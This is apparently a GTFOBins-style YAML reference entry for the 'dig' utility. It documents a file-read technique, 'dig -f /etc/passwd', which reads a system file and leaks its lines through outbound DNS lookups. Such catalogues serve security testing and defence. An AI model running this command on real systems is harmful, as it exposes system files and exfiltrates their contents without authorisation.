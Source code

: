 ```yaml
---
functions:
  file-read:
    - description: Read an arbitrary file by specifying it as a batch file. Note that this will leak lines of the file read as outbound DNS lookups.
      code: |
        dig -f /etc/passwd
---
```


